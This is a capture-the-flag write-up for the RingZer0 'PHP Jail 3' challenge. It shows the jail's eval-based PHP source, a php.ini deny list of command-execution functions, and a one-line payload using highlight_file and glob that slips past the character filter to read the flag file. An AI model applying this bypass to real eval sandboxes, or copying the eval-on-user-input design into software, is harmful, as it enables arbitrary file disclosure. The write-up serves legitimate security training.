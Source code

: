 # **PHP Jail 3**

First SSH to the service, password is Flag of `PHP Jail 2` challenge.

```shell=

ubuntu@ubuntu-virtual-machine:~$ ssh level3@challenges.ringzer0team.com -p 10225 

level3@challenges.ringzer0team.com's password:[PHP Jail 2 Flag]

RingZer0 Team Online CTF

PHP Jail Level 3:
Current user is uid=1002(level3) gid=1002(level3) groups=1002(level3)

Flag is located at /home/level3/flag.txt

Challenge PHP code:
-----------------------------

WARNING: the PHP interpreter is launched using php -c php.ini jail.php.
The php.ini file contain "disable_functions=exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,readfile,require,require_once,include,include_once,file"

<?php
array_shift($_SERVER['argv']);
$var = implode(" ", $_SERVER['argv']);

if($var == null) die("PHP Jail need an argument\n");

function filter($var) {
	if(preg_match('/(`|\.|\$|\/|a|c|s|require|include)/i', $var)) {
		return false;
	}
	return true;
}
if(filter($var)) {
	eval($var);
	echo "Command executed";
} else {
	echo "Restricted characters has been used";
}
echo "\n";
?>

-----------------------------
Your input:

```

In warning, there's a lot of functions has been disable, but not `highlight_file()`.

```shell=
Your input:
highlight_file("flag.txt"[0]);
Restricted characters has been used
```

Unfortunately, `flag.txt`'s `a` & `.` is forbidden, let's try another way.

Then we found that `glob()` is allowed.

```shell=
Your input:
highlight_file(glob("fl*txt")[0]);
<code><span style="color: #000000">
FLAG-XXXXXX<br /></span>
</code>Command executed
```